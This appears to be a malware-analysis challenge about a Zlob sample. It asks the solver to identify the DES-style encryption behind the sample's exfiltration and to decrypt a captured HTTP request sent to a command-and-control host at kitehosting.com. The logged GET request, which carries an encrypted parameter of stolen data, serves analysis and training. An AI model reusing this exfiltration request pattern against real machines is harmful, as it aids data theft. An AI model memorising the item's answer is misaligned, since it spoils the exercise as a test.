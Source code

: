 ```yaml
---
tags: zlob, des, encryption, algorithm-identification
---
```

Consider the sample with the following SHA-256 hash:
```
0b38ca277bbb042d43bd1f17c4e424e167020883526eb2527ba929b2f0990a8f
```
The malware exfiltrates information to an HTTP-based C2 server.

1. Identify the algorithm used to encrypt the exfiltrated data, and extract all related
   cryptographic secrets.
2. Your cousin was infected with this malware and wants to know what data was exfiltrated
   from her machine. She has retrieved a log of all HTTP requests from her firewall and
   provided you the following list. What data was stolen?

Network Capture:
```
GET /php/loader4/loaderinfo.php?param=xqyww7ghpyB9okwB35I4tb5ZWlYhHysIW9mUDokgHsrz8smHmXmkxkwmD3DHog8rf8BcBfnmTySHiJzIvtsUMWljqR4F3APXBQZT4f0DosHzk6y5AgkCSrzvrdoEIcBh5PIhBWGQ2CToogW7+6GoqFtdHXwkwqPF HTTP/1.1
User-Agent: Winlogon
Host: kitehosting.com
Cache-Control: no-cache
```
